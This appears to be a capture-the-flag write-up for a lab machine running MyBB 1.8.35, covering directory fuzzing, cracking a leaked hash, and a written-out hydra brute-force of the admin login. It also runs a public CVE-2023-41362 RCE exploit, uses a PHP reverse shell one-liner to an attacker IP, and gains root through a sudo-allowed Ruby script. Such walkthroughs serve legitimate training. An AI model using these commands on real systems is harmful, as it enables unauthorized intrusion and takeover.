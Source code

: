 ```yaml
---
sticker: emoji//1f476
---
```


# ENUMERATION


## OPEN PORTS


![](images/Pasted%20image%2020241029135137.png)
Seems like we only have a website, let's fuzz it


## FUZZING

### GOBUSTER FUZZ

![](images/Pasted%20image%2020241029135218.png)

### SOURCE CODE AND WEBPAGE

Nothing useful, let's see the page:

![](images/Pasted%20image%2020241029143334.png)

Let's go to the forum:

![](images/Pasted%20image%2020241029143346.png)

We need to add `panel.mybb.dl` to `/etc/hosts` in order to be able to go into the website:

![](images/Pasted%20image%2020241029143517.png)

![](images/Pasted%20image%2020241029143536.png)
Nice, let's keep enumerating the machine until we find something we can exploit:

![](images/Pasted%20image%2020241029143732.png)
We can see we only have the admin user registered, 


![](images/Pasted%20image%2020241029143829.png)
Let's fuzz the `http://panel.mybb.dl` website to check if we can find anything:

![](images/Pasted%20image%2020241029144434.png)

We found interesting things, directory I like the most is the `/backups` directory, let's fuzz it to check if there's anything in there:

![](images/Pasted%20image%2020241029144701.png)

Found `/data` inside of the directory, let's take a look:

![](images/Pasted%20image%2020241029144821.png)

In general, SQL queries can be found, and some login attempts, but the most interesting part is the following:

![](images/Pasted%20image%2020241029144856.png)

User `alice` attempted to log in using a password, that seems like a hash, let's try to crack it and log into Alice account

![](images/Pasted%20image%2020241029145105.png)

We got `alice:tinkerbell` let's attempt to log in:

![](images/Pasted%20image%2020241029145142.png)
We cannot get in using those credentials, seems like they were fake, so, why don't we try some bruteforce using the `admin` username, let's capture the request with `burp` and use `hydra` to brute force our login page:


```request
POST /admin/index.php HTTP/1.1

Host: panel.mybb.dl

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 38

Origin: null

Connection: keep-alive

Cookie: mybb[lastvisit]=1730230425; mybb[lastactive]=1730230863; sid=df2321f0ff06ec973eb0f4cbfc38c6de

Upgrade-Insecure-Requests: 1

Priority: u=0, i



username=admin&password=admin&do=login
```

So, we got a post request, let's brute force:

```ad-hint

##### HYDRA COMMAND

`hydra -l admin -P /usr/share/wordlists/rockyou.txt panel.mybb.dl http-post-form "/admin/index.php:username=^USER^&password=^PASS^&do=login:F=Login Failed"`

![](images/Pasted%20image%2020241029150240.png)



```

So, we got plenty amount of passwords, after trying every single one of them, correct credentials were: `admin`:`babygirl`, let's log in and proceed with exploitation:

![](images/Pasted%20image%2020241029150737.png)



# EXPLOITATION


First, we can see we are running `myBB 1.8.35` let's search for any exploit in this version:

![](images/Pasted%20image%2020241029150932.png)
We found this [exploit](https://github.com/SorceryIE/CVE-2023-41362_MyBB_ACP_RCE), let's download it and use it:

![](images/Pasted%20image%2020241029151057.png)
So, we need to put this:

```ad-hint

# PYTHON COMMAND:

python3 exploit.py http://panel.mybb.dl admin babygirl

##### OUTPUT

![](images/Pasted%20image%2020241029151225.png)

We got RCE!
```

With the RCE from the exploit, we can get a [[CYBERSECURITY/REVERSE SHELLS/MOST COMMON REVERSE SHELLS.md|reverse shell]]:

```ad-note

# USED SHELL

php:  `php -r '$sock=fsockopen("192.168.200.136",4444);shell_exec("bash <&3 >&3 2>&3");'`

# CONNECTION RECEIVED

![](images/Pasted%20image%2020241029151456.png)

```

Let's [[CYBERSECURITY/Commands/Shell Tricks/STABLE SHELL.md|stabilize our shell]]:

![](images/Pasted%20image%2020241029151553.png)

With our new stable shell, we can begin with [[CYBERSECURITY/LINUX/LINUX PRIVILEGE ESCALATION/BASIC PRIVESC IN LINUX.md|PRIVESC]]

# PRIVILEGE ESCALATION



At home directory, we can find our previous user `alice`, let's switch users:

![](images/Pasted%20image%2020241029151851.png)

Nice, we were able to switch to alice, let's use `sudo -l` to get root access:


## SUDO -L


![](images/Pasted%20image%2020241029151944.png)
Pretty weird, let's take a look at that:

It is a ruby script, since we can execute any ruby script as root without the need of a password, we can do the following:

```ad-hint

`echo 'exec "/bin/bash"' > /home/alice/scripts/root.rb`
`chmod +x root.rb`

`sudo /home/alice/scripts/root.rb`

# OUTPUT

![](images/Pasted%20image%2020241029152250.png)


```

And just like that, the CTF is done!